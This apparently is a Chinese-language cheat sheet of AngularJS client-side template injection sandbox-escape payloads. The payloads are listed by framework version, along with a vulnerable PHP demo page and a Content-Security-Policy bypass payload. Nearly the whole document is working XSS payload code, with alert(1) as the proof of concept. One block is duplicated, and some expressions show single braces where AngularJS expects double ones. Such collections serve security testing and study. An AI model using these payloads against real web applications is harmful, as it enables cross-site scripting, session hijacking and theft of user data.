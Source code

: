 参考：
	- https://seaii-blog.com/index.php/2017/09/02/68.html

demo
```
<html ng-app>
<head>
    <script src="https://code.angularjs.org/{version}/angular.min.js"></script>
</head>
<body>
    <p>
    <?php
        $q = $_GET['q'];
        echo htmlspecialchars($q,ENT_QUOTES);
    ?>
</p>   
</body>
</html>
```

v1.0.1-v1.1.5
```javascript
{ constructor.constructor('alert(1)')() }
```

v1.2.0-v1.2.18
```javascript
{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }
```

v1.2.19-v1.2.23
```javascript
{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }
```

v1.2.19-v1.2.23
```javascript
{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }
```

v1.2.24-v1.2.26
![](/images/angularjs模板注入.png)

v1.2.27-v1.2.29/v1.3.0-v1.3.20(实际测试为v1.2.20-v1.2.32/v1.3.0-v1.3.20均生效。)
```javascript
{ {}.")));alert(1)//"; }
```

v1.4.0-v1.4.5（仅chrome）
```javascript
{ o={};l=o[['__lookupGetter__']];(l=l)('event')().target.defaultView.location='javascript:alert(1)'; }
```

v1.4.5-1.5.8 （仅chrome）
```javascript
{ x={y:''.constructor.prototype};x.y.charAt=[].join;[1]|orderBy:'x=alert(1)' }
```

v1.6.0-1.6.6
```javascript
{ [].pop.constructor('alert(1)')() }
```

csp bypass （仅chrome v1.4.0-v1.6.6）
```html
<html ng-app>
<head>
    <?php
        header("Content-Security-Policy:default-src 'self';script-src code.angularjs.org 'self'");
    ?>
    <script src="https://code.angularjs.org/{version}/angular.min.js"></script>
</head>
<body>
    <p>
    <?php
        echo $_GET['q'];
    ?>
</p>   
</body>
</html>
```
```javascript
<input+autofocus ng-focus="$event.path|orderBy:'!x?[].constructor.from([x=1],alert):0'">
```

2.10版本之后，AngularJS废除了沙盒机制